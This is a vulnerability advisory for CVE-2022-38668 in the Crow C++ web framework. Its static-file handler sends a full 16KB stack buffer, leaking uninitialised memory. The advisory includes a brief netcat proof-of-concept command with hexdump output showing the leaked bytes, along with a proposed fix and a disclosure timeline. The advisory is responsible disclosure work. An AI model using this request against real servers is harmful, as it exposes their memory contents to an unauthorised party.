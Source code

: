 <h2><b><i>Summary:</i></b></h2>

Affected: Crow version 1.0+4 and older
<a src="https://github.com/CrowCpp/Crow">https://github.com/CrowCpp/Crow</a> - maintained version(fork)

<a src="https://github.com/ipkn/crow">https://github.com/ipkn/crow</a> - original version

CVE ID: CVE-2022-38668

CVSS: 7.5 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N)

Discovered by:<br></br>
  &ensp;Gynvael Coldwind<br></br>
  &ensp;hebi

Method of discovery:<br></br>
  &ensp;Manual Analysis (reading the code)

<blockquote>
"Crow is a C++ framework for creating HTTP or Websocket web services. It uses
routing similar to Python's Flask which makes it easy to use. It is also
extremely fast, beating multiple existing C++ frameworks as well as non C++
frameworks." </blockquote> (source: project's README.md)

Crow versions prior <a src="https://github.com/CrowCpp/Crow/releases/tag/v1.0%2B4">v1.0+4</a> (included) are vulnerable to an Information Disclosure
("Exposure of Sensitive Information to an Unauthorized Actor") issue, due to
improper handling of static resources.
Any request to a static resource, where the static resource is smaller than
16KB, will lead to disclosing up to 16KB of data from the stack.

<b>IMPORTANT:</b> This vulnerability is reported under the 90-day policy 
(version 2021), i.e. this report will be shared publicly with the defensive
community on 16th November 2022 if a patch/fix is not available by that time, or
30 days after the fix becomes available. For details please see:
<a src="https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html">https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html</a>


<h2><b><i>Vulnerability details</i></b></h2>

The vulnerability is located in the Connection::do_write_static* method within 
the http_connection.h file.
*<a src="https://github.com/CrowCpp/Crow/blob/master/include/crow/http_connection.h#L393">https://github.com/CrowCpp/Crow/blob/master/include/crow/http_connection.h#L393</a>

This function creates a local buffer with a fixed size of 16384 bytes. Then the
buffer is passed to is.read() method (where "is" denotes an opened local file
pointed to by the static resource mapping) to acquire the content of the given
static resource (file). This call made within a while loop's condition, which
checks if any data was read (if not, the loop will exit).

However, the number of bytes that were read is not being tracked in any form.
Furthermore, the whole buffer is then passed to <code>asio::buffer</code> without specified
size**.

<b>**In this case it means that the whole array size will be used as data size, as
per the following constructor description:</b>

<a src="https://www.boost.org/doc/libs/1_80_0/doc/html/boost_asio/reference/buffer/overload7.html">https://www.boost.org/doc/libs/1_80_0/doc/html/boost_asio/reference/buffer/overload7.html</a>

This in turn leads to the whole local buffer being sent to the client requesting
the resource, including the potentially uninitialized part. This is especially
true for files smaller than 16KB.

Conditions for triggering this behavior are:

<ol>
  <li>Static path needs to be defined.</li>
  <li>At least 1 static file needs to exist</li>
  <li>The file needs to be smaller than 16KB.</li>
</ol>

<h2><b><i>Exploit</i></b></h2>

```
$ cat poc.txt | nc -v 127.0.0.1 18080 | hexdump -C
localhost [127.0.0.1] 18080 (?) open
00000000  48 54 54 50 2f 31 2e 31  20 32 30 30 20 4f 4b 0d  |HTTP/1.1 200 OK.|
00000010  0a 43 6f 6e 74 65 6e 74  2d 54 79 70 65 3a 20 74  |.Content-Type: t|
00000020  65 78 74 2f 70 6c 61 69  6e 0d 0a 43 6f 6e 74 65  |ext/plain..Conte|
00000030  6e 74 2d 4c 65 6e 67 74  68 3a 20 35 0d 0a 53 65  |nt-Length: 5..Se|
00000040  72 76 65 72 3a 20 43 72  6f 77 2f 6d 61 73 74 65  |rver: Crow/maste|
00000050  72 0d 0a 44 61 74 65 3a  20 54 75 65 2c 20 31 36  |r..Date: Tue, 16|
00000060  20 41 75 67 20 32 30 32  32 20 32 32 3a 34 39 3a  | Aug 2022 22:49:|
00000070  32 32 20 47 4d 54 0d 0a  43 6f 6e 6e 65 63 74 69  |22 GMT..Connecti|
00000080  6f 6e 3a 20 4b 65 65 70  2d 41 6c 69 76 65 0d 0a  |on: Keep-Alive..|
00000090  0d 0a 54 65 73 74 0a 00  00 00 00 00 00 00 00 00  |..Test..........|
000000a0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00002a90  00 00 00 00 00 00 00 00  00 00 28 14 00 ac d8 7f  |..........(.....|
00002aa0  00 00 20 14 00 ac d8 7f  00 00 48 f8 8c b4 d8 7f  |.. .......H.....|
00002ab0  00 00 50 f8 8c b4 d8 7f  00 00 49 8a 42 00 00 00  |..P.......I.B...|
00002ac0  00 00 28 14 00 ac d8 7f  00 00 20 14 00 ac d8 7f  |..(....... .....|
00002ad0  00 00 03 00 00 00 00 00  00 00 11 00 00 00 00 00  |................|
00002ae0  00 00 28 14 00 ac d8 7f  00 00 20 14 00 ac d8 7f  |..(....... .....|
00002af0  00 00 c0 f8 8c b4 d8 7f  00 00 cc 89 42 00 00 00  |............B...|
00002b00  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00002b10  00 00 5b 00 00 00 6e 00  00 00 c0 1c 00 ac d8 7f  |..[...n.........|
00002b20  00 00 b0 1c 00 ac d8 7f  00 00 01 00 00 00 00 00  |................|
00002b30  00 00 20 00 00 00 00 00  00 00 08 00 00 00 00 00  |.. .............|
00002b40  00 00 28 14 00 ac d8 7f  00 00 20 14 00 ac d8 7f  |..(....... .....|
00002b50  00 00 b0 1c 00 ac d8 7f  00 00 40 f9 8c b4 d8 7f  |..........@.....|
00002b60  00 00 f0 f8 8c b4 d8 7f  00 00 89 48 49 00 00 00  |...........HI...|
00002b70  00 00 28 3b 8d b4 d8 7f  00 00 30 14 00 ac d8 7f  |..(;......0.....|
00002b80  00 00 40 f9 8c b4 d8 7f  00 00 48 f9 8c b4 d8 7f  |..@.......H.....|
00002b90  00 00 50 f9 8c b4 d8 7f  00 00 99 47 49 00 00 00  |..P........GI...|
00002ba0  00 00 01 00 00 00 00 00  00 00 c8 04 8d b4 d8 7f  |................|
00002bb0  00 00 30 f9 8c b4 d8 7f  00 00 b0 1c 00 ac d8 7f  |..0.............|
00002bc0  00 00 01 00 00 00 00 00  00 00 c8 04 8d b4 d8 7f  |................|
00002bd0  00 00 d0 1c 00 ac d8 7f  00 00 b0 1c 00 ac d8 7f  |................|
00002be0  00 00 30 14 00 ac d8 7f  00 00 30 14 00 ac d8 7f  |..0.......0.....|
00002bf0  00 00 90 f9 8c b4 d8 7f  00 00 00 53 2a 66 e1 24  |...........S*f.$|
00002c00  09 b2 30 14 00 ac d8 7f  00 00 60 ff ff ff ff ff  |..0.......`.....|
...
```

<h2><b><i>Proposed fix:</i></b></h2>

Passing the actual size of bytes read to asio::buffer's constructor.


<h3><b><i>Timeline</i></b></h3>
<ul>
  <li>2022-08-14: Vulnerability discovered.</li>
  <li>2022-08-17: Vulnerability reported.</li>
  <li>2022-08-21: Public fix was proposed.</li>
  <li>2022-08-22: Public fix was merged in.</li>
  <li>2022-08-22: CVE requested and assigned.</li>
  <li>2022-09-23: Details were published.</li>
</ul>